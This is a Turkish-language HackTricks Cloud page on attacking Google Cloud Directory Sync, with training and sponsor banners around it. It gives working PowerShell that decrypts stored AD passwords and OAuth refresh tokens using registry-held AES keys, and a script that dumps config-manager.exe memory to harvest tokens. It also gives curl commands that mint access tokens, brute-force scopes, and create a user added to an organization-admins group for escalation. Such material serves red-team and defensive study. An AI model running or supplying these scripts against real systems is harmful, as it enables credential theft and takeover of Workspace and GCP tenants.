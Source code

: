 # GCDS - Google Cloud Directory Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Temel Bilgiler

Bu, **aktif dizin kullanıcılarınızı ve gruplarınızı Workspace'inize senkronize etmek için kullanılabilecek bir araçtır** (ve bu yazının yazıldığı sırada tam tersi değildir).

İlginçtir ki, bu araç **bir Workspace süper kullanıcısının ve ayrıcalıklı AD kullanıcısının kimlik bilgilerini** gerektirecektir. Bu nedenle, zaman zaman kullanıcıları senkronize eden bir alan sunucusunda bulunması mümkün olabilir.

{% hint style="info" %}
**`config-manager.exe`** ikili dosyasına bir **MitM** gerçekleştirmek için `config.manager.vmoptions` dosyasına aşağıdaki satırı ekleyin: **`-Dcom.sun.net.ssl.checkRevocation=false`**
{% endhint %}

{% hint style="success" %}
[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) aracının **GCDS**'yi tespit edebildiğini, yapılandırma hakkında bilgi alabileceğini ve **hatta şifreleri ve şifrelenmiş kimlik bilgilerini** elde edebileceğini unutmayın.
{% endhint %}

Ayrıca, GCDS'nin AD'den Workspace'e şifreleri senkronize etmeyeceğini unutmayın. Eğer bir şey olursa, sadece Workspace'te yeni oluşturulan kullanıcılar için rastgele şifreler üretecektir, bunu aşağıdaki görüntüde görebilirsiniz:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5780773316536156543-x.jpg" alt="" width="515"><figcaption></figcaption></figure>

### GCDS - Disk Tokenleri & AD Kimlik Bilgileri

`config-manager.exe` ikili dosyası (GUI ile ana GCDS ikili dosyası), yapılandırılmış Aktif Dizin kimlik bilgilerini, yenileme tokenini ve erişimi varsayılan olarak **`C:\Program Files\Google Cloud Directory Sync`** klasöründe **`Untitled-1.xml`** adlı bir **xml dosyasında** saklayacaktır. Ancak, bu dosya kullanıcının `Documents` klasöründe veya **herhangi bir başka klasörde** de kaydedilebilir.

Ayrıca, **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** kayıt defteri içindeki **`open.recent`** anahtarı, en son açılan yapılandırma dosyalarının (xml'lerin) yollarını içerir. Bu nedenle, **bunları bulmak için kontrol etmek mümkündür**.

Dosya içindeki en ilginç bilgiler şunlardır:
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
Not edin ki **refresh** **token** ve kullanıcının **şifresi**, **AES CBC** ile rastgele üretilen bir anahtar ve IV kullanılarak **şifrelenmiştir** ve **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** içinde saklanmaktadır (nerede olursa olsun **`prefs`** Java kütüphanesi tercihleri saklar) **`/Encryption/Policy/V2.iv`** ve **`/Encryption/Policy/V2.key`** dize anahtarlarında base64 formatında saklanmaktadır.

<details>

<summary>Refresh token ve şifreyi çözmek için Powershell scripti</summary>
```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

{% hint style="info" %}
Bu bilgiyi **`C:\Program Files\Google Cloud Directory Sync`** içindeki **`DirSync.jar`** java kodunu kontrol ederek `exportkeys` dizesini arayarak kontrol etmenin mümkün olduğunu unutmayın (çünkü bu, `upgrade-config.exe` ikilisinin anahtarları dökmesini beklediği cli parametresidir).
{% endhint %}

Powershell betiği yerine, **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** ikilisini `-exportKeys` parametresiyle kullanarak anahtar ve IV'yi kayıt defterinden hex formatında alabilir ve ardından bu anahtar ve IV ile AES/CBC kullanarak bazı cyberchef ile bilgiyi şifre çözmek de mümkündür.

### GCDS - Bellekten jetonları dökme

GCPW ile olduğu gibi, `config-manager.exe` sürecinin belleğini dökmek mümkündür (bu, GCDS ana ikilisinin GUI ile adıdır) ve yenileme ve erişim jetonlarını bulabileceksiniz (eğer zaten oluşturulmuşlarsa).\
Ayrıca AD yapılandırılmış kimlik bilgilerini de bulabileceğinizi düşünüyorum.

<details>

<summary>config-manager.exe süreçlerini dökün ve jetonları arayın</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - Yenileme jetonlarından erişim jetonları oluşturma

Yenileme jetonunu kullanarak, aşağıdaki komutta belirtilen istemci kimliği ve istemci sırrını kullanarak erişim jetonları oluşturmak mümkündür:
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCDS - Kapsamlar

{% hint style="info" %}
Bir yenileme token'ına sahip olsanız bile, erişim token'ı için herhangi bir kapsam talep etmek mümkün değildir çünkü yalnızca **erişim token'ını oluşturduğunuz uygulama tarafından desteklenen kapsamları talep edebilirsiniz**.

Ayrıca, yenileme token'ı her uygulamada geçerli değildir.
{% endhint %}

Varsayılan olarak GCSD, kullanıcı olarak her olası OAuth kapsamına erişime sahip olmayacaktır, bu nedenle aşağıdaki betiği kullanarak `refresh_token` ile bir `access_token` oluşturmak için kullanılabilecek kapsamları bulabiliriz:

<details>

<summary>Kapsamları zorlamak için Bash betiği</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Ve yazma anında aldığım çıktı:
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### Bir kullanıcı oluşturun ve bunu `gcp-organization-admins` grubuna ekleyin, GCP'de yükselmeyi denemek için
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'

# You could also change the password of a user for example
```
{% hint style="danger" %}
Yeni kullanıcıya Super Amin rolü verilemez çünkü **yenileme token'ı gerekli yetkileri vermek için yeterli kapsamda değildir**.
{% endhint %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
